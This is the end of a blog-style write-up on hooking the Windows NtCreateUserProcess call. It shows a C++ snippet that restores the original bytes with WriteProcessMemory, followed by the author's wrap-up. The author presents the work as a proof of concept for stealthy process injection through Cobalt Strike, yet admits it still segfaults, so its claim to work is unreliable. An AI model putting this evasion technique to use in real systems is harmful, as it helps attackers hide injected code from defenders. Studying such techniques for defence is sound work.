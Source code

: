 ```cpp
        "pop r8;"
        "pop rdx;"
        "pop rcx;"
        "pop rbx;"
        "pop rax;");

    // unpatch
    WriteProcessMemory(GetCurrentProcess(), (LPVOID)NtCreateUserProcessAddr, NtCreateUserProcessOriginalBytes, sizeof(NtCreateUserProcessOriginalBytes), &bytesWritten);

    // call the original
    printf("Calling original\n");
    return NtCreateUserProcess(ProcessHandle, ThreadHandle, ProcessDesiredAccess, ThreadDesiredAccess, ProcessObjectAttributes, ThreadObjectAttributes, ProcessFlags, ThreadFlags, ProcessParameters, CreateInfo, AttributeList);
}
```

### 8. Wrapping up

Unfortunately there are still issues with the inline assembly code for `NtCreateUserProcess` and the fact I'm messing up the stack. I suspect there are certain registers that `CreateProcessA` expects to remain constant throughout its call to `NtCreateUserProcess`, hence the trampoline function, but something is still off resulting in a segfault.

Fun fact, in x32 assembly there is something called `pushad` and `popad` which pushes and pops all the registers to and from the stack. When x64 came around the corner, they needed space for new instructions, and `pushad` and `popad` were sacrificed.

I'm pretty proud I've gotten this far. In my humble opinion I have developed a useful, working PoC that can be used by Cobalt Strike to perform stealthy(ish) process injection.


`NtDelayExecution(FALSE, 604800000);`